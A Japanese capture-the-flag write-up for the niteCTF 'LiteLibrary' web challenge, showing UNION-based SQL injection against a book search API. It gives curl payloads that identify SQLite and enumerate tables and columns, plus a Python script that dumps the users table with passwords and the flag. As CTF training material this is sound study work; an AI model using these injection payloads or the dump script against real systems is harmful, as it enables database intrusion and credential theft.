 # LiteLibrary:web:437pts
Testing in prod. No worries are long as we are lighte :)  
[http://litelibrary.web.nitectf.live/](http://litelibrary.web.nitectf.live/)  

# Solution
URLが渡される。  
アクセスすると本を検索できるサービスのようだ。  
![site1.png](site/site1.png)  
サイトが検索リクエスト以外を送信していないため、検索APIに注目する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=_"
[{"title":"Things Fall Apart","author":"Chinua Achebe","pages":"209","imageLink":"images/things-fall-apart.jpg","link":"https://en.wikipedia.org/wiki/Things_Fall_Apart"}]
```
試しに`_`を送信すると先頭の本がヒットした。  
内部でDBが用いられていそうなので、SQLiを試す。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,1,1,1,1;+--+s"
[{"title":1,"author":1,"pages":1,"imageLink":1,"link":1}]
```
UNION-based SQLiが実行できる。  
まずはDBMSを特定する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+sqlite_version(),1,1,1,1;+--+s"
[{"title":"3.41.1","author":1,"pages":1,"imageLink":1,"link":1}]
```
SQLiteであるようだ。  
テーブル名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(tbl_name),1,1,1,1+FROM+sqlite_master+WHERE+type='table';+--+s"
[{"title":"BOOKS,USERS","author":1,"pages":1,"imageLink":1,"link":1}]
```
`books`と`users`が存在するとわかる。  
`users`が怪しいのでカラム名を取得する。  
```bash
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+group_concat(name),1,1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":"Blindness","author":"José Saramago","pages":"352","imageLink":"images/blindness.jpg","link":"https://en.wikipedia.org/wiki/Blindness_(novel)"}]
$ curl "http://litelibrary.web.nitectf.live/api/search?q=s'+UNION+SELECT+1,group_concat(name),1,1,1+AS+column_names+FROM+pragma_table_info('users');+--+s"
[{"title":1,"author":"liteId,liteUsername,gender,liteNick,litePass,dateCreated","pages":1,"imageLink":1,"link":1}]
```
titleのチェックがあるのか、文字列が長いとBlindnessになってしまう。  
authorで取得すればよい。  
カラム名が分かったので以下のdump.pyで`users`の中身をダンプしてやる(`dateCreated`は不要だと予測)。  
```python
import requests

for i in range(0xff):
    res = requests.get(
        f"http://litelibrary.web.nitectf.live/api/search?q=s' UNION SELECT liteid,liteusername,gender,litenick,litepass FROM users LIMIT 1 OFFSET {i}; -- s"
    )
    print(res.text)
```
実行する。  
```bash
$ python dump.py
[{"title":"002cd316-affa-4455-b482-7a4d60e79eb4","author":"f043manh1nt0n","pages":"male","imageLink":"winters781241","link":"0ifnfgkijagmi"}]
~~~
[{"title":"28582015-49f6-43f8-9aad-a9e5d4a5687f","author":"madmaxfuryyyyy2344","pages":"male","imageLink":"nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}","link":"yeehaaw1amMadx"}]
[{"title":"291c0336-0f3d-49f0-8edb-129b68b98863","author":"40ch31le60nza135","pages":"female","imageLink":"beverly7070264","link":"6dd3a4f211bfca"}]
^C
```
imageLinkにflagが含まれていた。  

## nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}